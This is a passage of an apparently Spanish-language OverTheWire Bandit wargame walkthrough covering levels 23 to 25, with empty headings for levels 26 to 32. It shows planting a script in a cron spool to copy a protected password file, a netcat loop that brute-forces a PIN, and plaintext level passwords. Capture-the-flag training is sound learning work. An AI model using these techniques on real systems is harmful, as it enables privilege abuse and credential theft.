 ```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done

bandit23@bandit:~$ echo -e "cp /etc/bandit_pass/bandit24 lorka;chmod 777 lorka" > "/var/spool/bandit24/lala";chmod +x "/var/spool/bandit24/lala";echo -e "[+] Espera 30segundos";sleep 30;cat "/var/spool/bandit24/lorka"
[+] Espera 30segundos
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
#### [+] Level24
```
bandit24@bandit:/tmp/fififi$ for i in {8529..8531}; do echo $i;echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | timeout 0.6 nc localhost 1 30002 |grep -vi wrong|grep -v pincode;done

8530
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
#### [+] Level25
[![asciicast](https://asciinema.org/a/9HaIG6w8GckqS4eeyBccpuvuL.svg)](https://asciinema.org/a/9HaIG6w8GckqS4eeyBccpuvuL)
```
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
#### [+] Level26
```

```
#### [+] Level27
```

```
#### [+] Level28
```

```
#### [+] Level29
```

```
#### [+] Level30
```

```
#### [+] Level31
```

```
#### [+] Level32
```
```